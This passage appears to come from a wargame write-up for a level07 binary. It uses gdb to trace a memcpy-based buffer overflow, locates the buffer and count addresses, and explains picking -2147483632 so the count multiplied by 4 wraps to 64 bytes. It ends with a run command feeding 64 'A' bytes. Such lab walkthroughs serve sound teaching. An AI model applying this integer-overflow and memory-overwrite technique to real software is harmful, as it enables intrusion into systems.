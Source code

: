 We can recognise the `buf` address (currently empty), then the `argv[2]` address (filled with 'A'), then the count:

    (gdb) x 0xbffffbf0
    0xbffffbf0:     0x00000000
    (gdb) x 0xbffffe1c
    0xbffffe1c:     0x41414141
    (gdb) print 0x24
    $1 = 36

Then after running the `memcpy`, the `buf` is filled with 'A':

    (gdb) ni
    0x08048467 in main ()
    (gdb) x 0xbffffbf0
    0xbffffbf0:     0x41414141
    (gdb) x/20wx 0xbffffbf0
    0xbffffbf0:     0x41414141      0x41414141      0x44580041      0x45535f47
    0xbffffc00:     0x4f495353      0x44495f4e      0x3436363d      0x53003333
    0xbffffc10:     0x4c4c4548      0x08049688      0xbffffc38      0x080484e9
    0xbffffc20:     0xb7fc93c4      0xb7fff000      0x080484db      0x00000009
    0xbffffc30:     0x080484d0      0x00000000      0x00000000      0xb7e39a63

We have our first address!

To find the second one, look again at the `cmp` instruction right after the `memcpy`, it's using the `$ebp-0xc` memory address, which is our `9` input:

    (gdb) x $ebp-0xc
    0xbffffc2c:     0x00000009

And we can see the distance between the `buf` address and the `count` now we have the addresses:

    (gdb) x/20wx 0xbffffbf0
    0xbffffbf0:     0x41414141      0x41414141      0x44580041      0x45535f47
    0xbffffc00:     0x4f495353      0x44495f4e      0x3436363d      0x53003333
    0xbffffc10:     0x4c4c4548      0x08049688      0xbffffc38      0x080484e9
    0xbffffc20:     0xb7fc93c4      0xb7fff000      0x080484db      0x00000009
    0xbffffc30:     0x080484d0      0x00000000      0x00000000      0xb7e39a63
    (gdb) print 0xbffffc2c - 0xbffffbf0
    $1 = 60

Let's try to overwrite the 60 bytes with 'A', first we need to have a negative number that will provide the good positive value once multiplied by 4. On a 32 bits system, we can take the highest negative number, which is 2^31, and then add our number divided by 4, so when the shift happens, the leading 1 leaves and our number gets rightly moved:

    -2^31 =              10000000 00000000 00000000 00000000
    -2^31 + 64/4 =       10000000 00000000 00000000 00010000
    (-2^31 + 64/4) * 4 = 00000000 00000000 00000000 01000000
    64 =                 00000000 00000000 00000000 01000000

Let's try with `-2147483632` and 64 'A':


    (gdb) r -2147483632 $(python -c 'print "A"*64)
    Starting program: /levels/level07 -2147483632 $(python -c 'print "A"*64')
    /bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)

